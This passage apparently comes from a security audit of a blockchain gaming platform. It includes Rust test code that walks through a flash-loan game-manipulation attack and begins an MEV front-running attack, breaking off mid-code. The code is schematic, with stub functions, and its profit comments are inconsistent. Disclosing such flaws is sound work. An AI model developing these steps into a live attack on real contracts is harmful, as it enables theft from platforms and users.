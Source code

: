 ### Business Impact
- [x] **Gaming platform becomes unfair**
- [x] **Economic model exploitable**
- [x] **User participation discouraged**
- [x] **Platform competitive integrity destroyed**

## 🔬 Proof of Concept

### Flash Loan Attack Implementation
```rust
#[cfg(test)]
mod test_flash_loan_attacks {
    use super::*;

    #[test]
    fn test_flash_loan_game_manipulation() {
        // Simulate flash loan attack
        let flash_loan_amount = 10_000_000; // 10M tokens

        // Step 1: Flash loan massive amount
        let borrowed_funds = flash_loan_borrow(flash_loan_amount);

        // Step 2: Join multiple games to manipulate economics
        let mut games_joined = Vec::new();
        for i in 0..100 {
            let session_id = format!("game_{}", i);
            let game_session = create_game_session(session_id.clone(), 100_000); // 100k bet each

            // Join with flash loan funds
            let result = join_user_with_funds(session_id, borrowed_funds, 100_000);
            games_joined.push(result);
        }

        // Step 3: Manipulate game outcomes through volume/coordination
        for game in games_joined {
            // Attacker controls significant portion of each game
            // Can manipulate outcomes for guaranteed wins
            manipulate_game_outcome(game, AttackerAdvantage::Guaranteed);
        }

        // Step 4: Collect winnings (200k per game * 100 games = 20M)
        let total_winnings = collect_all_winnings(); // 20M tokens

        // Step 5: Repay flash loan
        flash_loan_repay(flash_loan_amount); // 10M + fees

        // Net profit: 10M - fees = massive profit with no initial capital
        assert!(total_winnings > flash_loan_amount * 2);
    }

    #[test]
    fn test_mev_front_running() {
        // Simulate MEV bot front-running user transactions
        let user_transaction = create_user_join_transaction("high_value_game", 50_000);

        // MEV bot detects pending transaction
        let mev_bot_transaction = create_front_run_transaction("high_value_game", 100_000);

        // Bot transaction executes first
        execute_transaction(mev_bot_transaction);

        // User transaction executes with altered game state
```